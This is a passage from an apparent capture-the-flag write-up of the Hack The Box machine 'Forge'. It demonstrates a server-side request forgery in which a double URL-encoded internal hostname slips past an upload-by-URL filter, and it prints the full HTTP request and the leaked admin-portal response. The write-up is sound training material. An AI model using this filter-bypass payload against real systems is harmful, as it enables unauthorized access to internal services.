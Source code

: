 Upload from the URL `http://admin%2Eforge%2Ehtb` to bypass the application's restrictions.

![](images/Pasted%20image%2020210914174538.png)

The `%` is further URL-encoded in the actual request.

```http
POST /upload HTTP/1.1code
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2Fadmin%252Eforge%252Ehtb&remote=1
```

Follow the link to view the page's HTML:

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 17:40:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=5TTAWFULr5iXrgIviQN6
Content-Length: 559
Last-Modified: Tue, 14 Sep 2021 17:40:26 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```